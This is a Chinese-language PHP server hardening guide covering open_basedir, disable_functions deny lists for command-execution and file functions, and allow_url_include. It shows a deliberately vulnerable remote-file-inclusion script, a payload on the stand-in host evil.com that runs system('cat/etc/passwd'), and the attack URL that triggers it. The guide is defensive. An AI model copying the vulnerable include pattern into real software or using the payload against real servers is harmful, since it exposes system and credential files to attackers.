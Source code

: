 ```php
open_basedir = D:/usr/www
```



#### 关闭危险函数 

如果打开了安全模式，那么函数禁止是可以不需要的，但是我们为了安全还是考虑进去。

比如，我们觉得不希望执行包括system()等在那的能够执行命令的php函数，

或者能够查看php信息的phpinfo()等函数，那么我们就可以禁止它们：

```php
disable_functions = system,passthru,exec,shell_exec,popen,phpinfo,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,show_source,get_cfg_var
```

如果你要禁止任何文件和目录的操作，那么可以关闭很多文件操作：

```php
disable_functions = chdir,chroot,dir,getcwd,opendir,readdir,scandir,fopen,unlink,delete,copy,mkdir,rmdir,rename,file,file_get_contents,fputs,fwrite,chgrp,chmod,chown
```

以上只是列了部分不叫常用的文件处理函数，你也可以把上面执行命令函数和这个函数结合，就能够抵制大部分的phpshell了。



### php7 无需修改的配置

***



#### allow_url_include =Off

PHP通过此选项控制是否允许通过include/require来执行一个远程文件(如http://evil.com/evil.php或ftp://evil.com/evil.php)。

代码示例如下：

```php
// http://HostA/test.php如下：
<?php
$strParam = $_GET['param'];
if (!include_once($strParam.’.php’)){
   echo “error”;
}
?>
// http://evil.com/evil.php示例如下：
<?php 
   echo "<?php system('cat/etc/passwd'); ?>"
?>  

```

假如用户访问如下的URL，访问页面中的$strParam将被设置为一个远程的URL：http://evil.com/evil.php。如果此配置被设置为on，那么test.php会通过include_once执行远程服务器上的PHP文件（http://evil.com/evil.php），后果不言而喻。

   http://HostA/test.php?param=http://evil.com/evil
